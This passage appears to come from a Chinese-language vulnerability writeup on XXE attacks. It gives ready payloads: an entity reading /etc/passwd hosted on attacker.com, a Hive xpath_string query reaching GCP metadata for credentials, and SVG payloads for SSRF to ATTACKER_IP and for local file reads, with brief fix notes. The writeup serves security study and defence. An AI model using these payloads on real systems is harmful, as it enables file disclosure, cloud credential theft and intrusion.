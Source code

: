 **影响**：Web爬虫解析时泄露服务器敏感数据至攻击者域名。

------

### 6. 反射型XXE（GET参数注入）

#### 利用方式

1. **托管恶意XML**（http://attacker.com/evil.xml）：

   ```
   <!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
   <root>&xxe;</root>
   ```

2. **触发解析**：

   ```
   GET /get_recording_slides_xml.xml?url=http://attacker.com/evil.xml
   ```

**修复方向**：验证输入URL的合法性，禁用外部资源加载。

------

### 7. Hive数据库XXE（SQLI -> GCP元数据泄露）

#### 攻击链复现

1. **利用未授权Hive访问**：直接连接至暴露的数据库端口。

2. **执行XXE查询**：

   ```
   SELECT xpath_string('
     <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://metadata.google.internal/project-id">]>
     <stockCheck>&xxe;</stockCheck>
   ', '*') FROM test;
   ```

**关键风险**：通过云元数据获取服务账户凭证，可能导致云环境沦陷。

------

### 8. SVG类XXE（SSRF/LFI）

#### 攻击向量

- **SSRF Payload**：

  ```
  <svg xmlns:xlink="http://www.w3.org/1999/xlink">
    <image xlink:href="http://ATTACKER_IP/svg" />
  </svg>
  ```

- **LFI Payload**：

  ```
  <image xlink:href="file:///etc/passwd" />
  ```
